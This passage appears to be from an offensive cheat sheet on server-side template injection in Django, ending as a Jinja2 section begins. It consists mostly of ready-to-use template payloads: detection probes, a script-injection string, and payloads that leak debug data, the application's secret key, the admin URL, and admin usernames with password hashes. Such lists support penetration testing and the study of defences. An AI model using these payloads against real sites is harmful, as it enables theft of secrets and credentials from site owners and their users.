 ## Django

Django template language supports 2 rendering engines by default: Django Templates (DT) and Jinja2. Django Templates is much simpler engine. It does not allow calling of passed object functions and impact of SSTI in DT is often less severe than in Jinja2.

### Django - Basic Injection

```python
{% csrf_token %} # Causes error with Jinja2
{{ 7*7 }}  # Error with Django Templates
ih0vr{{364|add:733}}d121r # Burp Payload -> ih0vr1097d121r
```

### Django - Cross-Site Scripting

```python
{{ '<script>alert(3)</script>' }}
{{ '<script>alert(3)</script>' | safe }}
```

### Django - Debug Information Leak

```python
{% debug %}
```

### Django - Leaking App's Secret Key

```python
{{ messages.storages.0.signer.key }}
```

### Django - Admin Site URL leak

```python
{% include 'admin/base.html' %}
```

### Django - Admin Username And Password Hash Leak

```ps1
{% load log %}{% get_admin_log 10 as log %}{% for e in log %}
{{e.user.get_username}} : {{e.user.password}}{% endfor %}

{% get_admin_log 10 as admin_log for_user user %}
```

---

## Jinja2

[Official website](https://jinja.palletsprojects.com/)
> Jinja2 is a full featured template engine for Python. It has full unicode support, an optional integrated sandboxed execution environment, widely used and BSD licensed.  
